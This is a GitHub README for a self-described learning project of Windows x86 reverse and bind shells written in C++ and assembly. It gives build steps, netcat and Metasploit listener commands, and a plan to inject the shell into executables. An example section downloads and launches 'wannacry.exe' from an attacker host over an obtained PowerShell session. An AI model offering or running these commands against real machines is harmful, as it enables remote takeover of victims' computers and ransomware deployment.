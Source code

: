 # Reverse_shell learning

## :one: Reverse Shell x86 :fr:

This tinny project showing how does work a reverse shell x86 in differents languages as cpp or in assembly code. the differentes methods describe below are very know and old, these tricks are widely documented on internet.

### Tree

* reverse_bind_cpp 
* reverse_bin_cpp_v2
  - try to catch ipv4 address of ethernet card
* Bind reverse written in object
* Reverse cpp ( reverse shell cpp )
* Reverse cpp written in object
* ASM Bind reverse shell
  - not terminated
* ASM v1 ( reverse shell asm )
  - Replace all address offsets of called functions
* ASM v2 ( reverse shell asm )
  - Ligne 78 : LoadLibraryA replace it by your own offset
  - Ligne 79 : GetProcAddress replace it by your own offset
  - Ligne 193: SOKADDR_IN set you own port and IP address
* ASM v3
  - Remove all null bytes
   
### Architecture

Win32 plateform

  - [x] XP 
  - [x] vista
  - [x] 7
  - [x] 10 - For all assembly codes Windows Defender detected that program is bad for himself 

### Soon

\[\*\] coding a lil program :
  * Open biary file exe
  * read PE
  * find EP
  * IAT import ws2_32.dll
  * Inject Reverse_shell
  * close binary file Exe
  
\[\*\] pass to x64

## :two: Compilation 

### Build ASM x86

```
$nasm -f win32 reverse_shell.s -o reverse_shell.o
$ld -m i386pe reverse_shell.o -o reverse_shell32.exe
```
### Show Hex

```
$nasm -f bin reverse_shell.s -o reverse_shell_bin.o
$cat reverse_shell_bin | hexdump -C
```
### Build C++

Download Devcpp on windows plateform :

  - Project include library : **MinGW64/x86_64-w64-mingw32/lib32/libws2_32.lib**
  - Add **lib** directory to your project.
  - Build it.
  - execv.
  
## :three: Shell Connection 

### Reverse Tcp netcat

```
$netcat -v -l -p 4444
```

### Reverse Tcp msf

```
$ msfconsole
$ use exploit/multi/handler
$ show paylaods
$ set payloads generic/reverse_tcp
$ set RHOST [ip]
$ set LPORT [PORT]
$ exploit
```

### Reverse Bind Tcp netcat

```
$netcat -v victim_ip 4444
```
## :four: Example

### Win >= 7 Bind reverse shell \[ powershell.exe \]

<img src="https://zupimages.net/up/19/01/wq32.png">

After get a reverse powershell, you can download and lauch somes files with this trick, just using all power of Windows shell with wget command.
 
```
[ powershell command ]
>dir env:\
> $url=http://192.168.0.2/wannacry.exe
> wget $url -outfile [ PATH ]
> cmd
> start File
```

### Reverse Tcp With CPP \[ cmd.exe \] 

Write on an ide really basic devcpp on windows

- Inlude at your projet : MinGw-x86-64\libws2_32.so

<img src="https://zupimages.net/up/18/52/3s63.png">
<img src="https://zupimages.net/up/18/52/y6mk.png">

### Win 10 pro reverse cpp \[ cmd.exe \]

<img src="https://zupimages.net/up/18/52/ztqp.png">
<img src="https://zupimages.net/up/18/52/dt6r.png">
<img src="https://zupimages.net/up/18/52/a96f.png">


